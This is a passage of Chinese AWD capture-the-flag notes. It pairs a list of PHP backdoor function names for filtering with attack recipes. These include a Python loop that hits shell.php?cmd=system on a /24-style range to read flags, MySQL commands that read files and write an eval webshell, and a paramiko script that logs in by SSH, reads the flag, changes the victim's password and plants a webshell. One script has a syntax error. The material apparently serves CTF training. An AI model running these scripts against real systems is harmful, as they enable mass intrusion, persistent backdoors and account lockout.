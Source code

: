 7. 写过滤时可以参考的参数

8. ```php
   php后门木马常用的函数大致上可分为四种类型：
   1. 执行系统命令: system, passthru, shell_exec, exec, popen, proc_open
   2. 代码执行与加密: eval, assert, call_user_func,base64_decode, gzinflate, gzuncompress, gzdecode, str_rot13
   3. 文件包含与生成: require, require_once, include, include_once, file_get_contents, file_put_contents, fputs, fwrite
   4. .htaccess: SetHandler, auto_prepend_file, auto_append_file
   ```

9. 切记要修改默认用户密码

10. 加固完成后，记住修复的漏洞点，写py拿洞

    ```python
    import requests
    for i in range(1,254):
        try:
            url = f"http://172.167.{i}.2/shell.php?cmd=system('cat /flag');"
            r = requests.get(url,timeout=0.5)
            if r.status_code == 200:
                print(r.text)
        except:
            pass
    ```

    



##### 攻击：

1. 记住漏洞点写脚本批量拿

2. 记住一些默认用户的密码 或者弱密码 比如web的后台密码 mysql的密码，mysql如果不修改密码 可以读写文件

   ```php
   select load_file('/flag.txt'); #读文件
   select "<?php eval($_GET['a']);?>" into outfile "/var/www/html/.file.php" #写文件
       
   #该操作需要secure_file_prive支持
   ```

3. 拿ssh账密 

   ```python
   import paramiko
   import threading
   def con(host,user,passwd):
      npass='xxcc123##'
      try:      
            s=paramiko.SSHClient()
            s.set_missing_host_key_policy(paramiko.AutoAddPolicy())
            s.connect(hostname=host,username=user,password=passwd,port=22)
            a,b,c=s.exec_command("cat /flag")
            print("%s===flag{%s}"%s(host,str(b.read()))
            d,e,f=s.exec_command("passwd")
            d.write(passwd+'\n'+npass+'\n'+npass+'\n')
            x,y,z=s.exec_command("echo '<?php @eval($_POST[x]);?>' >/var/www/html/zzc.php")
            s.close()
      except:
            pass
   
   user='ctf'
   ```